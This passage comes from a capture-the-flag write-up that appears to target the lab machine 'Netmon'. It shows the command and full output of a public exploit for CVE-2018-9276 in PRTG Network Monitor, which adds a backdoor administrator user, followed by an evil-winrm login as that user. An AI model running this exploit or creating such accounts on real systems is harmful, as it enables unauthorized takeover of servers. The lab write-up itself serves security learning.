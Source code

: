 I then ran the following [exploit code](https://www.exploit-db.com/exploits/46527) and passed my cookie to add a backdoor administrator user to the system:

```
$ ./cve-2018-9276.sh -u http://10.10.10.152 -c "_ga=GA1.4.1634127558.1599608581; _gid=GA1.4.950774786.1599608581; OCTOPUS1813713946=ezc4QjgzQkM2LUZE
QkItNDE2Qy1CQTZFLUQ3OTU3QzRDN0JGQ30%3D; _gat=1"

[+]#########################################################################[+]
[*] Authenticated PRTG network Monitor remote code execution                [*]
[+]#########################################################################[+]
[*] Date: 11/03/2019                                                        [*]
[+]#########################################################################[+]
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*]
[+]#########################################################################[+]
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*]
[*] Version: 18.2.38                                                        [*]
[*] CVE: CVE-2018-9276                                                      [*]
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*]
[+]#########################################################################[+]

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!'

[+]#########################################################################[+]

 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

Since the host had WinRM enabled and the `pentest` user should be an administrator, I should be able to WinRM into the host to get an interactive PowerShell session. I used [evil-winrm](https://github.com/Hackplayers/evil-winrm) to do this:

```
$ ~/tools/evil-winrm/evil-winrm.rb -u pentest -p P3nT3st! -i 10.10.10.152

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ==============================================
netmon\pentest S-1-5-21-2105491204-2789866987-2357151585-1000


GROUP INFORMATION
-----------------

```